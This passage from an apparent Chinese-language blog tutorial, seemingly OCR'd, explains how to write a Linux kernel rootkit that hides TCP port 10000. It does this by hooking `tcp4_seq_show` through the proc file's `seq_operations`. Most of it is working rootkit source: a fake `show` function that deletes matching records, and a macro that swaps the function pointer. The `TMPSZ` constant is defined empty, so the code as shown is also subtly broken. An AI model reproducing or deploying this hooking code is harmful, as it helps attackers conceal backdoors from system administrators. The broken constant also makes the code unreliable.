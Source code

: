 	const struct file *file;
	void *private;
};

struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
{% endhighlight %}

是不是和之前见过的`file_operations`很像！！！内核看来是有迹可循的！

`tcp4_seq_show`就是`seq_operations`中的`show`函数。

老套路，我们钩掉它，就 OK。开始工作！

首先看一下假的`show`：

{% highlight c %}
#define NEEDLE_LEN  6
#define SECRET_PORT 10000
#define TMPSZ

int (*real_seq_show)(struct seq_file *seq, void *v);
int fake_seq_show(struct seq_file *seq, void *v) 
{
    int ret;
    char needle[NEEDLE_LEN];
    snprintf(needle, NEEDLE_LEN, ":%04X", SECRET_PORT);
    ret = real_seq_show(seq, v); 

    if(strnstr(seq->buf + seq->count - TMPSZ, needle, TMPSZ)){
        printk("Hiding port %d using needle %s.\n", \
                SECRET_PORT, needle);
        seq->count -= TMPSZ;
    }   
    return ret;
}
{% endhighlight %}

思路是，先调用真的`show`向`seq`中写入一条记录，然后检查写入的内容中是否有`:10000`这个字符串，如果有，就把`seq->count`这个记录缓冲区已经使用的字节数减去一条记录的长度`TMPSZ`相当于之前写入的无效了；如果没有，就正常放行。

下面是用来钩函数的宏：

{% highlight c %}
#define set_afinfo_seq_op(op, path, afinfo_struct, new, old)    \
    do{ \
        struct file *filp;  \
        afinfo_struct *afinfo;  \
        filp = filp_open(path, O_RDONLY, 0);    \
        if(IS_ERR(filp)){   \
            printk("Failed to open %s with error %ld.\n",   \
                    path, PTR_ERR(filp));   \
            old = NULL; \
        }   \
        else{   \
                afinfo = PDE_DATA(filp->f_path.dentry->d_inode);    \
                old = afinfo->seq_ops.op;   \
                printk("Setting seq_op->" #op " from %p to %p.",    \
                        old, new);  \
                afinfo->seq_ops.op = new;   \
                filp_close(filp, 0);    \
        }   \
    }while(0)
{% endhighlight %}
